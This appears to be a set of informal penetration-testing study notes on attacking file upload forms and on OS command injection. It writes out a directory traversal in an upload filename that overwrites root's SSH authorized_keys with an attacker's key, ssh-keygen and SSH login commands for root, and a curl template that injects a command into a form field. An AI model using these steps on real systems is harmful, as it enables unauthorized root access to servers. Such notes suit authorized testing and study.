 
## Using Non-Executable Files

something like google drive

when testing file uplaod form, determine what happens when the same files is uploaded multiple time, app indicates files exists we can use brute force to get the content of server, error message is helpful as  well


## POST Request in Burp for Uploading File

we can mod the file name for directory traversal in burp: 
../../../../../../../test.txt

Apache Nginx or other dedicated web server run with specific users such as www-data on linux.

windows IIS webserver runs as a network service account, passwordless buildin windows id with low privileges

when using programming languages that include their own webserver, admins often deply web app without any privilege structures by running at root or admin ro avoid permission, always verify whe we can use

overwrite authorized_keys in home firectory of root

```
ssh-keygen
```
generate ssh key pair

```
cat fileup.pub > authorized_keys
```
rename fileup.pub to authorized keys

```
we can upload with ../../../../../../../root/.ssh/authorized_keys
```
rename is done in burp intercept

```
rm ~/.ssh/known_hosts
```
to remove saved hosts files because we're going to test a different machine
ssh -p <port> -i <privatekey file> root@domain


# OS Command Injection

ExploitDB

we can use burp to inspect the actual command and modify it with repeater

```
curl -X POST --data 'Archive=<command>' <domain>/archive
```
this is obtained from burp or just inspecting the input feild
